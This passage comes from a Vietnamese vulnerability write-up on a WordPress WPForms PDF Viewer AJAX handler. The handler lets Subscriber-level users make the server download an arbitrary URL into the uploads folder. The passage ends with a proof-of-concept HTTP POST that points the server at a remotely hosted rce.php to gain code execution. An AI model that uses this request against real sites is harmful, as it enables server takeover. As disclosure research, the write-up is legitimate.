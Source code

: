 7. Di chuyển file tạm sang thư mục uploads
```php
$wp_filesystem->move( $tmp_file, $path );
```

* Di chuyển file từ `temp ($tmp_file)` sang `uploads ($path)`.
* Sử dụng `$wp_filesystem->move()` thay vì `rename()` để tương thích mọi môi trường (`Direct`, `FTP`, `…`).

---

`ajax_handler_download_pdf_media()` được dăng ký làm callback cho action hook 

```php
add_action( 'wp_ajax_epdf_wf_download_pdf_media', array( $this, 'ajax_handler_download_pdf_media' ) );
```

Điều này có nghĩa là:

* `wp_ajax_` yêu cầu người dùng đã đăng nhập(tối thiếu là `Subcriber`) mới được gửi request đươc chấp nhận
* `epdf_wf_download_pdf_media` là action được truyền trong param

Khi người dùng đã đăng nhập gửi request đến endpoint `/wp-admin/admin-ajax.php` với param `action=epdf_wf_download_pdf_media` thì `ajax_handler_download_pdf_media()` được gọi để xử lý request

### Flow

{{< mermaid >}}
graph TD
A["Subcriber POST -> /wp-admin/admin-ajax.php?action=epdf_wf_download_pdf_media&url=..."] --> B["ajax_handler_download_pdf_media()"]
B --> C["check_ajax_referer('epdf_wf_download_pdf_media')"]
C --> D["download_url($url) -> $tmp_file (temporary file)"]
D --> E{"is_wp_error($tmp_file) ?"}
E -- "yes" --> F["wp_send_json_error() -> STOP"]
E -- "no" -->  K["Uploaded file accessible → potential RCE"]
{{< /mermaid >}}

## Exploit

### Proof of Concept (PoC)
1. Truy cập trang chứa form được tạo từ **WPForms** sử dụng **PDF Viewer**
2. Lấy nonce
3. Tạo file `.php` chứa code RCE và lưu trữ trên internet
4. Gửi POST request với url trỏ đến file vừa tạo.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=sub%7C1762165151%7C5VGNGPhUPc74oSqabIRMtpA8jrLrn2JYdg6Lc4fqU8I%7C69db0f51f219492ec3f150bb86bc1364f7cd33442587ddf3f1bf334e4cdec409; wp-settings-time-2=1761725656; wp-settings-4=libraryContent%3Dbrowse%26uploader%3D1%26mfold%3Do; wp-settings-time-4=1761637043; wp-settings-2=editor%3Dtinymce%26libraryContent%3Dbrowse; wp-settings-time-3=1761711790; wp-settings-3=libraryContent%3Dbrowse; _lscache_vary=fff4fa950d2b9daa95c3289bb2a7040a; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=sub%7C1762165151%7C5VGNGPhUPc74oSqabIRMtpA8jrLrn2JYdg6Lc4fqU8I%7Ca7cb9996e74be71e18c68f339c0ad07a43687c7eb701f89fe90374cc2a783131; wp-settings-time-5=1761992371
...

_ajax_nonce=ea2ccf0ccd&action=epdf_wf_download_pdf_media&url=https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php
```
